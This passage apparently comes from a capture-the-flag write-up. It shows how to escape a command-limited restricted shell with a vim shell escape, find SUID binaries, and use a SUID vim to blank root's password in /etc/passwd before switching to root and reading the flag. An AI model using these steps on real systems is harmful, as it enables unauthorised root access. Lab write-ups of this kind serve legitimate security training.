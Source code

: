 This is the file which dosen't allow us to execute more than 3 command attempts per login 

we can easily bypass this by this by following command : 

```
vim -c "!sh" 
```

Now we have full control of using unlimited commands as user sarthak.

```
find / -perm /4000 2>/dev/null
```

again same results 

```
/usr/bin/vim.basic
/usr/bin/sed
```

But now this time we can also edit files on behalf of root user: 

```
vim /etc/passwd
```

remove `x` from root.	
It should looke like this:

```
root::0:0:root:/root:/bin/bash
```

To save file use:  

```
wq!
```

```
su root
```

```
cat /root/root.txt
```
